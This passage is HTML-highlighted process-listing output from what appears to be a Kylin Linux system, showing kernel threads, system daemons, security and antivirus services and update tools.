class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rdr_codec_hifi_]</span><br><span class="line">root         <span class="number">233</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rdr_codec_hifi_]</span><br><span class="line">root         <span class="number">234</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        D    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [modemddrc_emit]</span><br><span class="line">root         <span class="number">235</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [hisi-drg]</span><br><span class="line">root         <span class="number">236</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">151</span>-asp_dma]</span><br><span class="line">root         <span class="number">238</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">3</span>:<span class="number">1</span>-events]</span><br><span class="line">root         <span class="number">239</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">2</span>:<span class="number">1</span>-rcu_gp]</span><br><span class="line">root         <span class="number">240</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">194</span>-ffb0400]</span><br><span class="line">root         <span class="number">241</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ipv6_addrconf]</span><br><span class="line">root         <span class="number">242</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [krfcommd]</span><br><span class="line">root         <span class="number">243</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [core_ctl/<span class="number">0</span>]</span><br><span class="line">root         <span class="number">244</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [core_ctl/<span class="number">4</span>]</span><br><span class="line">root         <span class="number">245</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [core_ctl/<span class="number">6</span>]</span><br><span class="line">root         <span class="number">250</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kysec_notify_th]</span><br><span class="line">root         <span class="number">251</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [hisi_smmu_evt<span class="number">.1</span>]</span><br><span class="line">root         <span class="number">252</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [hisi_smmu_evt<span class="number">.0</span>]</span><br><span class="line">root         <span class="number">253</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [crtc0_ldi_under]</span><br><span class="line">root         <span class="number">254</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [crtc1_ldi_under]</span><br><span class="line">root         <span class="number">255</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">259</span>-edp_bri]</span><br><span class="line">root         <span class="number">256</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [tca_wq]</span><br><span class="line">root         <span class="number">257</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [thermal_hotplug]</span><br><span class="line">root         <span class="number">258</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">84</span>-faultirq]</span><br><span class="line">root         <span class="number">259</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">83</span>-errirq]</span><br><span class="line">root         <span class="number">260</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [noc_err_handle_]</span><br><span class="line">root         <span class="number">261</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rpmb_task]</span><br><span class="line">root         <span class="number">262</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [pll_delayed_rel]</span><br><span class="line">root         <span class="number">263</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [hi64xx_micbias_]</span><br><span class="line">root         <span class="number">264</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">260</span>-LineIn]</span><br><span class="line">root         <span class="number">265</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">261</span>-Rear He]</span><br><span class="line">root         <span class="number">266</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">262</span>-Rear Mi]</span><br><span class="line">root         <span class="number">267</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [msg_proc_wq]</span><br><span class="line">root         <span class="number">268</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [hi64xxdumplog]</span><br><span class="line">root         <span class="number">269</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [left_data_parse]</span><br><span class="line">root         <span class="number">270</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [right_data_pars]</span><br><span class="line">root         <span class="number">271</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">6</span>:<span class="number">1</span>H-kblockd]</span><br><span class="line">root         <span class="number">336</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">7</span>:<span class="number">1</span>H-kblockd]</span><br><span class="line">root         <span class="number">337</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">4</span>:<span class="number">1</span>H-kblockd]</span><br><span class="line">root         <span class="number">338</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">5</span>:<span class="number">1</span>H-kblockd]</span><br><span class="line">root         <span class="number">340</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">1</span>:<span class="number">1</span>H-kblockd]</span><br><span class="line">root         <span class="number">342</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">3</span>:<span class="number">1</span>H-kblockd]</span><br><span class="line">root         <span class="number">348</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_eh_4]</span><br><span class="line">root         <span class="number">349</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_tmf_4]</span><br><span class="line">root         <span class="number">350</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [usb-storage]</span><br><span class="line">root         <span class="number">422</span>  <span class="number">0.1</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">02</span> [jbd2/sdd3<span class="number">-8</span>]</span><br><span class="line">root         <span class="number">423</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ext4-rsv-conver]</span><br><span class="line">root         <span class="number">497</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [jbd2/sdd2<span class="number">-8</span>]</span><br><span class="line">root         <span class="number">498</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ext4-rsv-conver]</span><br><span class="line">root         <span class="number">499</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [jbd2/sdd5<span class="number">-8</span>]</span><br><span class="line">root         <span class="number">500</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ext4-rsv-conver]</span><br><span class="line">root         <span class="number">554</span>  <span class="number">0.0</span>  <span class="number">0.3</span>  <span class="number">61344</span> <span class="number">24100</span> ?        S&lt;s  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> /lib/systemd/systemd-journald</span><br><span class="line">root         <span class="number">574</span>  <span class="number">0.1</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">02</span> [kworker/u16:<span class="number">6</span>-events_unbound]</span><br><span class="line">root         <span class="number">589</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">20800</span>  <span class="number">5692</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /lib/systemd/systemd-udevd</span><br><span class="line">root         <span class="number">733</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">2</span>:<span class="number">1</span>H-events_highpri]</span><br><span class="line">root         <span class="number">740</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">4</span>:<span class="number">2</span>-mm_percpu_wq]</span><br><span class="line">root         <span class="number">748</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">75932</span>   <span class="number">876</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/kyseclogd</span><br><span class="line">root         <span class="number">770</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">11260</span>  <span class="number">1880</span> ?        S&lt;sl <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /sbin/auditd</span><br><span class="line">systemd+     <span class="number">779</span>  <span class="number">0.0</span>  <span class="number">0.1</span>  <span class="number">26180</span> <span class="number">10724</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /lib/systemd/systemd-resolved</span><br><span class="line">root         <span class="number">780</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">90232</span>  <span class="number">6108</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /lib/systemd/systemd-timesyncd</span><br><span class="line">root         <span class="number">905</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [audit_prune_tre]</span><br><span class="line">root         <span class="number">908</span>  <span class="number">0.1</span>  <span class="number">0.0</span>   <span class="number">1956</span>  <span class="number">1256</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> /opt/ol/OptiDaemon</span><br><span class="line">root         <span class="number">909</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">241768</span>  <span class="number">6132</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/lib/accountsservice/accounts-daemon</span><br><span class="line">root         <span class="number">911</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">1792</span>   <span class="number">884</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/lib/audesktop/auserver</span><br><span class="line">avahi        <span class="number">912</span>  <span class="number">0.1</span>  <span class="number">0.0</span>   <span class="number">6292</span>  <span class="number">3276</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> avahi-daemon: running [kylin-pc.local]</span><br><span class="line">root         <span class="number">913</span>  <span class="number">0.0</span>  <span class="number">0.6</span> <span class="number">1086620</span> <span class="number">54796</span> ?       SLsl <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/lib/biometric-authentication/biometric-authenticationd</span><br><span class="line">root         <span class="number">916</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12320</span>  <span class="number">2408</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/cron -f</span><br><span class="line">avahi        <span class="number">917</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">6080</span>   <span class="number">300</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> avahi-daemon: chroot helper</span><br><span class="line">root         <span class="number">918</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">33688</span>  <span class="number">7472</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/cupsd -l</span><br><span class="line">root         <span class="number">919</span>  <span class="number">0.0</span>  <span class="number">0.2</span>  <span class="number">51724</span> <span class="number">16416</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/python3 /usr/bin/location.py</span><br><span class="line">root         <span class="number">927</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">436572</span> <span class="number">13840</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/kylin-daq-daemon</span><br><span class="line">root         <span class="number">932</span>  <span class="number">0.2</span>  <span class="number">1.0</span> <span class="number">310916</span> <span class="number">81300</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">03</span> /usr/bin/python3 /usr/share/kylin-system-updater/kylin-system-updater</span><br><span class="line">root         <span class="number">933</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">314728</span>  <span class="number">1108</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/systime</span><br><span class="line">root         <span class="number">936</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">309496</span>  <span class="number">2880</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/perfgenius/perfgenius_server</span><br><span class="line">root         <span class="number">938</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12292</span>  <span class="number">2896</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /bin/bash /usr/bin/ppts/start.sh</span><br><span class="line">syslog       <span class="number">943</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">220048</span>  <span class="number">4464</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/rsyslogd -n -iNONE</span><br><span class="line">root         <span class="number">944</span>  <span class="number">1.1</span>  <span class="number">0.0</span> <span class="number">1212488</span> <span class="number">6888</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">15</span> /usr/bin/ppts/pptsmain</span><br><span class="line">root         <span class="number">954</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">9852</span>  <span class="number">3796</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/smartd -n</span><br><span class="line">root         <span class="number">959</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">16012</span>  <span class="number">3572</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /lib/systemd/systemd-drop-cache</span><br><span class="line">root         <span class="number">960</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">22624</span>  <span class="number">7752</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /lib/systemd/systemd-logind</span><br><span class="line">root         <span class="number">961</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">104088</span>  <span class="number">1672</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /vendor/bin/teecd</span><br><span class="line">root         <span class="number">962</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12292</span>  <span class="number">3064</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /bin/bash /usr/bin/hwfp_init.sh</span><br><span class="line">message+     <span class="number">964</span>  <span class="number">0.9</span>  <span class="number">0.1</span>  <span class="number">15684</span>  <span class="number">9760</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">12</span> /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only</span><br><span class="line">root         <span class="number">966</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">267752</span> <span class="number">12664</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/NetworkManager --no-daemon</span><br><span class="line">root         <span class="number">970</span>  <span class="number">0.0</span>  <span class="number">0.2</span>  <span class="number">53892</span> <span class="number">16496</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/python3 /usr/bin/hedron-domain-hook.py</span><br><span class="line">root         <span class="number">972</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">11844</span>  <span class="number">3028</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/processStateManage</span><br><span class="line">root         <span class="number">973</span>  <span class="number">0.7</span>  <span class="number">0.1</span> <span class="number">396736</span> <span class="number">15700</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">09</span> /usr/lib/udisks2/udisksd</span><br><span class="line">root         <span class="number">974</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">12432</span>  <span class="number">5468</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant</span><br><span class="line">root        <span class="number">1009</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">23068</span>  <span class="number">4040</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/CRON -f</span><br><span class="line">root        <span class="number">1016</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">20644</span>  <span class="number">4960</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /etc/xdg/<span class="built_in">auto</span>start/SuwellUpdateService</span><br><span class="line">root        <span class="number">1066</span>  <span class="number">0.2</span>  <span class="number">0.1</span> <span class="number">219700</span> <span class="number">13428</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">02</span> /opt/pantum/sbin/pantum_smservice</span><br><span class="line">root        <span class="number">1247</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [sugov:<span class="number">0</span>]</span><br><span class="line">root        <span class="number">1248</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [sugov:<span class="number">4</span>]</span><br><span class="line">root        <span class="number">1249</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [sugov:<span class="number">6</span>]</span><br><span class="line">root        <span class="number">1291</span>  <span class="number">0.1</span>  <span class="number">0.0</span> <span class="number">341916</span>  <span class="number">4104</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> /usr/bin/fingerprint_daemon</span><br><span class="line">root        <span class="number">1309</span>  <span class="number">1.6</span>  <span class="number">0.3</span> <span class="number">166932</span> <span class="number">27696</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">21</span> /usr/sbin/kysec-daemon</span><br><span class="line">root        <span class="number">1319</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">24800</span>  <span class="number">7640</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/certmonger -S -p /run/certmonger.pid -n -d2</span><br><span class="line">root        <span class="number">1320</span>  <span class="number">0.0</span>  <span class="number">0.0</span>   <span class="number">2216</span>   <span class="number">520</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /bin/sh -c /opt/kingsoft/wtool/wpsupdateserver</span><br><span class="line">root        <span class="number">1326</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">52688</span>  <span class="number">4356</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /opt/kingsoft/wtool/wpsupdateserver</span><br><span class="line">root        <span class="number">1338</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">40048</span>  <span class="number">2792</span> ?        Ss   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/oddjobd -n -p /var/run/oddjobd.pid -t <span class="number">300</span></span><br><span class="line">root        <span class="number">1345</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">234716</span>  <span class="number">6676</span> ?        Ssl  <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/lib/policykit<span class="number">-1</span>/polkitd --no-debug</span><br><span class="line">root        <span class="number">1357</span>  <span class="number">0.0</span>  <span class="number">0.1</span> <span class="number">947448</span> <span class="number">12968</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/bin/kylin-software-properties-service</span><br><span class="line">root        <span class="number">1374</span>  <span class="number">0.0</span>  <span class="number">0.0</span> <span class="number">145044</span>  <span class="number">6156</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/ksc-defender-daemon</span><br><span class="line">dnsmasq     <span class="number">1439</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">15892</span>  <span class="number">2016</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/dnsmasq -x /run/dnsmasq/dnsmasq.pid -u dnsmasq <span class="number">-7</span> /etc/dnsmasq.d,.dpkg-dist,.dpkg-old,.dpkg-new --local-service</span><br><span class="line">root        <span class="number">1462</span>  <span class="number">0.0</span>  <span class="number">0.0</span>  <span class="number">10788</span>    <span class="number">64</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> /usr/sbin/antivirus/avserver</span><br><span class="line">root        <span class="number">1464</span>  <span class="number">0.3</span>  <span class="number">0.7</span> <span class="number">825084</span> <span class="number">62512</span> ?        Sl   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">04</span> /usr/sbin/antivirus/avserver</span><br><span class="line">root        <span class="number">1532</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">root        <span class="number">1536</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">root        <span class="number">1537</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        Z    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [sh] &lt;defunct&gt;</span><br><span class="line">root        <span class="number">1542</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     